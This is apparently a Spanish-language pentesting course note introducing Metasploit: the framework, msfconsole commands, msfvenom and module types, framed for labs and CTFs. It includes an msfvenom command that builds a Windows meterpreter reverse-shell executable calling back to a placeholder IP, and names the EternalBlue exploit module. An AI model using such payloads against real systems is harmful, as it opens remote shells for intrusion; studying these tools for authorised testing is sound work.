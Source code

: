 ```yaml
---
title: Metasploit
modulo: M4 - Explotación y Post-Explotación
fecha: 2025-07-22
layout: apunte
slug: 2025-07-22-metasploit
---
```

# **👉Definiciones básicas**
## **1. Metasploit Framework (MSF)**
- ❓**Qué es:**  
    Una plataforma de **pruebas de penetración** que permite **descubrir, explotar y realizar post-explotación** en sistemas vulnerables.

- 🎖️**En qué destaca:**  
    Su gran base de datos de exploits listos y su modularidad.

- 💻**Uso típico:**  
    Ataques controlados en entornos de pentesting, laboratorios o CTFs.

## **2. msfconsole**
- ❓**Qué es:**  
    La interfaz de línea de comandos **principal** de Metasploit.

- ❗**Por qué es importante:**  
    Aquí se buscan módulos, se configuran, se ejecutan y se gestionan sesiones.

- ⌨️**Comandos típicos:**  
    `search`, `use`, `show options`, `run`, `sessions`.

## **3. msfvenom**
- ❓**Qué es:**  
    Una herramienta dentro de Metasploit para **crear payloads personalizados**.

- ✍️**Para qué sirve:**  
    Generar ejecutables, scripts o binarios maliciosos (por ejemplo, `shell.exe`) que luego conectan de vuelta a Metasploit.

🔰**Ejemplo:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<tu_IP> LPORT=4444 -f exe > shell.exe
```

## **4. Módulos (Modules)**
El corazón de Metasploit. Son "bloques de construcción" con funciones específicas. Se almacenan en `/usr/share/metasploit-framework/modules`.

- 🕷️**Exploits** →  
    Programas que aprovechan vulnerabilidades específicas.  
    Ejemplo: `exploit/windows/smb/ms17_010_eternalblue`.
